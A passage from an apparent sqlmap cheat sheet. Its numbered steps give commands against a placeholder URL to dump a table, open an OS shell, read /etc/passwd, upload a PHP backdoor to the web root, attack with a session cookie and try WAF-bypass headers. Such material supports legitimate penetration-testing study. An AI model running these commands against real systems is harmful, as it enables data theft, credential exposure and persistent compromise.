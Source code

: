 ```bash
sqlmap -u "http://example.com/item.php?id=1" -D users -T accounts --dump
```

✔️ Extracts and shows full data from the table.

---

### 7. 🐚 Get OS Shell (If Vulnerable)

```bash
sqlmap -u "http://example.com/item.php?id=1" --os-shell
```

✔️ Opens interactive shell (if remote code execution is possible).

---

### 8. 📥 Read File from Server

```bash
sqlmap -u "http://example.com/item.php?id=1" --file-read="/etc/passwd"
```

✔️ Reads the `/etc/passwd` file (Linux).

---

### 9. 📤 Write File to Server

```bash
sqlmap -u "http://example.com/item.php?id=1" --file-write="backdoor.php" --file-dest="/var/www/html/backdoor.php"
```

✔️ Uploads a PHP shell.

---

### 10. 🍪 Authenticated Attack with Cookies

```bash
sqlmap -u "http://example.com/dashboard.php?id=1" --cookie="PHPSESSID=1234abcd"
```

✔️ Useful for testing authenticated pages.

---

### 11. 🔗 Test Custom Headers

```bash
sqlmap -u "http://example.com" --headers="X-Forwarded-For: 127.0.0.1"
```

✔️ Test WAF bypass headers.

---
